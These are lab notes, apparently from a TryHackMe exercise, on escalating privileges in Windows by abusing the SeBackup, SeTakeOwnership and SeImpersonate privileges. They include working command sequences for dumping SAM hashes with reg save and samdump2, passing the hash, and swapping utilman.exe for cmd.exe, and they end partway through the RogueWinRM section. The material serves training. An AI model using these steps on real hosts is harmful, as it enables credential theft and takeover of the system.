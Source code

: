 --
`https://github.com/gtworek/Priv2Admin` | list of exploitable privileges
--
`whoami /priv` | checks user privs
--
**common privs**
--
**SeBackup/SeRestore**
--
he SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place. The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges, this can be used to raise privileges
--
1. `run cmd as admin`
2. `whoami /priv` | look for SeBackup and serestore privs, need to be apart of the backup operators group
3. `reg save hklm\system C:\Users\THMBackup\system.hive` + `reg save hklm\sam C:\Users\THMBackup\sam.hive` | back up system and sam hashes
4. `send files to attacking machine find away with whats available, maybe netcat, maybe something else`
6. `samdump2 system.hive sam.hive > win_hashes` | extract hashes from files
7. login with pass the hash attack using impack psexec.py
--
**SeTakeOwnership**
--
allows user to take ownership of any object on the system, including files and registry keys | could be used to take ownership of a service running as SYSTEMs executable
--
we can use utilman.exe since its run with system privileges | provides ease of access in the lock screen of windows
we will replace the binary with out payload
--
1. `run cmd as admin`
2. `whoami /priv` | look for Setakeownership privilege
3. `takeown /f C:\Windows\System32\Utilman.exe` | take ownership of the exe
4. `icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F` | give yourself full access to the file
5. `copy cmd.exe utilman.exe` | replace utilman with cmd
6. lock the windows screen by going to start menu and clicking the profile icon and click lock
7. press the ease of access button on the lock menu
--
**SeImpersonate/SeAssignPrimaryToken**
--
this privilege allows a process to impersonate other users and act on their behalf
local service and network service accounts have privileges - they are used to spawn services using restricted accounts
IIS create a similar default account call iisapppool/defaultapppool for web apps
--
to elevate privileges using these account an attacker needs to
1. spawn a process that users can connect and authenticate to for impersonation to occur
2. find a way to force privileged users to connect and authenticate to the spawned malicious process
--
we can use RogueWinRM exploit to accomplish these conditions
The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service, which is simply a port that exposes a Powershell console to be used remotely through the network. Think of it like SSH, but using Powershell.
If, for some reason, the WinRM service isn't running on the victim server, an attacker can start a fake WinRM service on port 5985 and catch the authentication attempt made by the BITS service when starting. If the attacker has SeImpersonate privileges, he can execute any command on behalf of the connecting user, which is SYSTEM
--
1. `whoami /priv` | look for SeAssignPrimaryTokenPrivilege + SeImpersonatePrivilege